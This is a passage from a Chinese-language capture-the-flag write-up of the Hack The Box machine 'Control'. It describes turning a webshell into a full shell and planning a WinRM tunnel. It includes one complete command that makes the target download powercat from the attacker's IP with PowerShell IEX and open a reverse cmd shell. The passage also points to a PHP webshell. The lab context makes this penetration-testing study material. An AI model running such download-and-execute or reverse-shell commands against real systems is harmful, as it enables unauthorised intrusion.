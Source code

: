 经过几次尝试，我们获得了一个可以执行命令的webshell

![image-20200922100901346]({{ site.url }}/assets/Control_167.assets/image-20200922100901346.png)



然后，显然需要一个更棒的shell

在工作目录准备好powercat

https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1

同时在工作目录建立临时web服务

![image-20200922101118515]({{ site.url }}/assets/Control_167.assets/image-20200922101118515.png)

nc监听准备好

![image-20200922101237536]({{ site.url }}/assets/Control_167.assets/image-20200922101237536.png)



利用webshell将准备好的powercat传输到服务器，并操作powercat从靶机链接kali

```bash
http://10.10.10.167/evil2.php?evilcmd=powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.25:8080/powercat.ps1');powercat -c 10.10.14.25 -p 4444 -e cmd"
```

![image-20200922101501604]({{ site.url }}/assets/Control_167.assets/image-20200922101501604.png)




我们上去了。但是基础的枚举做不了，只知道用户hector，应该是下一个跳板

![image-20200922101607676]({{ site.url }}/assets/Control_167.assets/image-20200922101607676.png)

![image-20200922101656699]({{ site.url }}/assets/Control_167.assets/image-20200922101656699.png)

![image-20200922101719568]({{ site.url }}/assets/Control_167.assets/image-20200922101719568.png)

5985.

https://cloud.tencent.com/developer/article/1499065

5985 winRm服务

我们有hash，
so，
我们需要一个可以在本地进行生成隧道的程序，以便连接攻击机和端口5985

尝试通过之前的webshell上传plink，但是被吞，估计是没有写exe权限

![image-20200922101805304]({{ site.url }}/assets/Control_167.assets/image-20200922101805304.png)

再尝试了各种上传方式无效后，我进行了各种google，并且在论坛中得到了，帮助。
我应该上传一个更加powerful的webshell。论坛的小伙伴推荐了

https://github.com/WhiteWinterWolf/wwwolf-php-webshell
